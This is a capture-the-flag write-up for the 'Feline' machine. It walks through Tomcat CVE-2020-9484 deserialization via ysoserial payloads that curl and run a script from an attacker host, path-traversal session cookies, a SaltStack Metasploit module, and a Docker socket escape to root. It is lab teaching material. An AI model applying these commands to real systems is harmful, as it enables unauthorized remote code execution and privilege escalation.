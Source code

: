 # Feline

### Initial Recon 
From the nmap scan we get two ports: 22 (SSH) and 8080 (Tomcat 9.0.27).

### Getting the foothold
There are various exploits on the Tomcat 9.0.27 but the only one that seems rezonable is SESSION deserialization (CVE-2020-9484). But for this one we need to meet three things:
- The PersistentManager is enabled and it’s using a FileStore ( no clue what this is ).
- The attacker is able to upload a file with arbitrary content, has control over the filename and knows the location where it is uploaded.
- There are gadgets in the classpath that can be used for a Java deserialization attack (still no clue).


With this said, it will be a long shot to get RCE. But the most important one is that we can upload files. We still don't know the path. In order to make it work I managed to throw an error when leaving the filename empty ( filenname ="" ) which disclosed the path `opt/samples/uploads/`. So now we need to do 4 things: 
- Use ysoserial to get a request from remote to attack that will later require the shell `java -jar /opt/tools/ysoserial.jar CommonsCollections5 "curl http://10.10.14.26/file.py -o /tmp/file.py" > shell.session`.
- Use ysoserial to get the file just downloaded to be executed `java -jar /opt/tools/ysoserial.jar CommonsCollections5 "python3 /tmp/file.py"> exploit.session`
- Manipulate the Cookie that manages the session to execute the first payload ( in order to download the file ). `JSESSIONID=../../../../../../opt/samples/uploads/shell`.
- Execute the second file to trigger the shell `JSESSIONID=../../../../../../opt/samples/uploads/execute`.

Because it's a long process and it can be painfull sometimes I wrote a script that automates this. You can just change the IP adresses and run the `./pwnUser.py` 

### Heading to root 
First we see all the listening ports `netstat -tulpn`. Here we do see the 4505 and 4506. A quick SSH portfowarding 
`ssh -R 4506:127.0.0.1:4506 zabogdan@10.10.14.26` to get access to scan the port. 

Running nmap we end up with `ZeroMQ ZTMP 2.0`.  There is a METASPLOIT module in order to exploit this `linux/misc/saltstack_salt_unauth_rce`. Switch to bash using `execute -f /bin/bash -i -H`.

Now that we are in the docker container we see that in `.bash_history` has something interesting `curl -s --unix-socket /var/run/docker.sock http://localhost/images/json`. From here we get the intel that this image is called `sandbox`.

We need to upload the docker binary. We go back on the shell from tomcat user and start a webserver in the `/usr/bin` directory to upload the docker binary.
Heading back to the container we can finally run the command `docker run -v /:/mnt --rm -it sandbox chroot /mnt bash` and get the root flag. 

### Articles 
-> https://www.redtimmy.com/java-hacking/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/
